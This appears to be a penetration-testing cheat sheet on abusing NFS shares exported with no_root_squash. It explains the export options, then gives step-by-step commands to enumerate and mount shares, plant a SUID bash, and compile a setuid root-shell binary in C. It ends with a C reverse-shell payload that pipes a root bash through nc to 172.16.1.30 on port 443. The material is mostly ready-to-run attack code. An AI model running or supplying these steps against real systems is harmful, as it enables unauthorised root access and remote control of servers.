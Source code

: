## What is NFS?
- Network File System runs on port 2049 and allows clients to access shared directories from a server over the network.  
- By default, the root_squash option maps root actions on the client to nobody:nogroup for security. 
>If misconfigured with no_root_squash, clients can mount shares with root privileges, enabling privilege escalation.


## How to ?
Read `/etc/exports`
```
cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
- `rw`: Grants read/write access  
- `sync`: Writes changes to disk before replying (safer but slower) resulting in a more stable and consistent environment but reduces the speed of file operations  
- `insecure`: Allows access from any client port  
- `no_subtree_check`: This option prevents subtree checking, which is a process where the host must check whether the file is actually still available in the exported tree for every request.  
- `no_root_squash`: This option allows privileged file writes inside the share. By default, NFS translates requests from a root user remotely into a non-privileged user on the server. This was intended as security feature to prevent a root account on the client from using the file system of the host as root – no_root_squash disables this behavior.  

List all nfs shares
```
showmount -e <TARGET_IP>
```
Mount vulnerable share
```
mkdir nfsdir
mount -t nfs 10.10.10.10:/mnt/share /tmp/nfsdir    
cd /tmp/nfsdir
```
### SUID
```
cp /bin/bash .  
chmod +s bash  
```
### Craft exploit
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash -p"); return 0; }' > /tmp/nfsdir/root_shell.c
gcc ./root_shell.c -o ./root_shell
cp root_shell /mnt/share/
chmod +s /mnt/share/root_shell
```
### Reverse shell
```
echo 'int main() { setgid(0); setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 172.16.1.30 443 >/tmp/f"); return 0; }' > /mnt/share/root_reverse_shell.c
```
